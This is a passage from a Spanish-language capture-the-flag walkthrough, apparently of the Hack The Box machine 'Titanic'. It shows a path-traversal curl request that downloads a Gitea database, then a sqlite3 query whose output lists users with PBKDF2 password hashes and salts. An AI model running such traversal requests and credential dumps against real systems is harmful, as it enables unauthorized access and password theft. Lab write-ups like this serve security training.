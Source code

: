 
## Paso 17 - 

Acción: 

```Shell 
curl -X GET "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" \
-H "Host: titanic.htb" \
--output gitea.db
```

Alternativa:

```SHELL
curl -X GET "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" -H "Host: titanic.htb" --output gitea.db
```

Resultado: 

```Shell 
gitea.db
```

Explicación: hemos podido descargar conc *curl* la base de datos que vimos anteriormente


## Paso 18 - 

Acción: 

```Shell 
sqlite3 gitea.db
```

Acción:

```SHELL
sqlite> select * from user;
```

Resultado: 

```Shell 
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|metahumo|metahumo||metahumo@metahumo.com|0|enabled|8ab9289acbdff7a328394d3214b33e367119776b3ca92826f5b62a97f4d8b796b66d57370c9ba6ea1820b71352c66db2f1fd|pbkdf2$50000$50|0|0|0||0|||32f0c010731ee34b56a3892eb61f917a|5711c0fbfa7b2bc5a6a1f2046c21480b|en-US||1745509867|1745513487|1745513487|0|-1|1|0|0|0|0|1|0|2974ce2d4086eaaae7b952af8059e081|metahumo@metahumo.com|0|0|0|0|1|0|0|0|0||gitea-auto|0
4|user123|user123||user@user.com|0|enabled|24d2ac995e818c64d8256923ebd5ba601fe29eb25ac5c46954c311685448e39ed07eb6c5eaf29d94bef83aa4928226ef80f0|pbkdf2$50000$50|0|0|0||0|||440d0d61d2bf04ca8c07437b3d0b0230|771096fa8ba6d019a3c1c04769a0dcac|en-US||1745510115|1745510122|1745510115|0|-1|1|0|0|0|0|1|0|88b87698be0bc461f3cacf1f080929d5|user@user.com|0|0|0|0|1|0|0|0|0||gitea-auto|0
```
